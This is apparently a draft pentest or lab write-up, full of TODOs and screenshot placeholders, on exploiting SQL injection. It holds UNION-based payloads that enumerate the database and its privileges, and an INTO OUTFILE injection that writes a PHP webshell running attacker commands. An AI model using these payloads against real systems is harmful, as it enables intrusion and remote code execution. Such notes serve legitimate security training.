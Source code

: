 `<insert_screenshot from any of the SQLi commands for directory enumeration>`

`<insert screenshot any of the OS enumeration from above>`

#### 2.2.2.3 - General

- We'll be using the SQL queries to enumerate file destination that may give us the directory web root path to write the webshell.

TODO: Demonstrate from the enumeration phase to find the web root directory

WHERE avatar LIKE '%upload%'

WHERE avatar LIKE  '%.jpeg'

WHERE avatar LIKE  '%.pdf'

WHERE avatar LIKE  '%.txt'

`<insert_screenshot from any of the SQLi commands for directory enumeration>`

- Spidering the URL with the use of `katana` to enumerate directories.

TODO: paste terminal commands and output

- Bruteforce the directories in the URL with tools such as, `gobuster`

TODO: paste terminal commands and output

### 2.2.4 - DB Enumeration

```sql
' UNION SELECT NULL, DATABASE()#

' UNION SELECT NULL, USER()#

' UNION SELECT NULL * FROM information_schema.PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->',GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#
```

### 2.2.5 - Exploit

TODO: Provide a way to GRANT the current DB user account for FILE Privilege

#### 2.2.5.1 - Exploit via OUTFILE

##### 2.2.5.1.1 - Simple Webshell

Note: There are a few things you need to know about these error messages.

1. MySQL can't find the source. To solve this error, you need to provide the absolute path to source.

```sql
' UNION SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>', NULL INTO OUTFILE '/var/html/shell.php'#
```

Here's the error message.
